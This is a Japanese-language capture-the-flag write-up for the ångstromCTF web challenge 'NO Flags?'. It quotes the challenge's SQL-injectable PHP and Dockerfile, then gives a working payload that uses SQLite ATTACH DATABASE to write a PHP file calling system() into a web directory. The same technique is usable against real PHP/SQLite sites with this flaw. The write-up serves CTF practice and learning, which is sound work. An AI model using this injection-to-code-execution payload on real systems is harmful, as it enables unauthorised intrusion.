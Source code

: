 # [WEB] NO Flags? 150pts
After hearing about all of the cheating scandals, clam decided to conduct a sting operation for ångstromCTF. He made [a database of fake flags](https://no-flags.web.actf.co/) to see who submits them. Unbeknownst to him, a spy managed to sneak a real flag into his database. Can you find it?

Source, Dockerfile

# Solution
サイトにアクセスすると、偽のフラグを投稿でき、それを表示する画面が出てくる。

ソースコードを読むと、以下のphpが含まれていた。

```php
<?php
        if (!isset($_SESSION["DBNAME"])) {
            $dbname = hash("sha256", (string) rand());
            $_SESSION["DBNAME"] = $dbname;
            $init = true;
        } else {
            $dbname = $_SESSION["DBNAME"];
            $init = false;
        }
        $pdo = new PDO("sqlite:/tmp/$dbname.db");
        if ($init) {
            $pdo->exec("CREATE TABLE Flags (flag string); INSERT INTO Flags VALUES ('actf{not_the_flag}'), ('actf{maybe_the_flag}')");
        }
        if (isset($_POST["flag"])) {
            $flag = $_POST["flag"];
            $pdo->exec("INSERT INTO Flags VALUES ('$flag');");
        }
        foreach ($pdo->query("SELECT * FROM Flags") as $row) {
            echo "<li>" . htmlspecialchars($row["flag"]) . "</li>";
        }
    ?>
```

`if (isset ~~~~` の部分を読むと、SQLiができることがわかる。次にDockerfileを読む。

```docker
FROM php:8.1.5-apache-bullseye

# executable that prints the flag
COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html

RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80
```

Dockerは使ったことがほとんどないので、よくわからないが、`/printflag`を実行することができたら、フラグがゲットできるっぽい。Dockerfileより、`/var/www/html` 以下を利用可能。つまり、そこに`/printflag` を実行するようなコードが埋め込まれたファイルを作れば良い。

```
'); ATTACH DATABASE '/var/www/html/abyss/rce.php' AS rce; CREATE TABLE rce.code (qp text); INSERT INTO rce.code (qp) VALUES ('<?php system('/printflag'); ?>'); --
```

を送信し、`https://no-flags.web.actf.co/abyss/rce.php` にアクセスしたら、フラグが得られた。ちなみに末尾の — はSQLiteのコメントアウト。データベースの勉強しなければ...

# References
- https://www.php.net/manual/ja/function.system.php
- https://www.php.net/manual/ja/class.pdo.php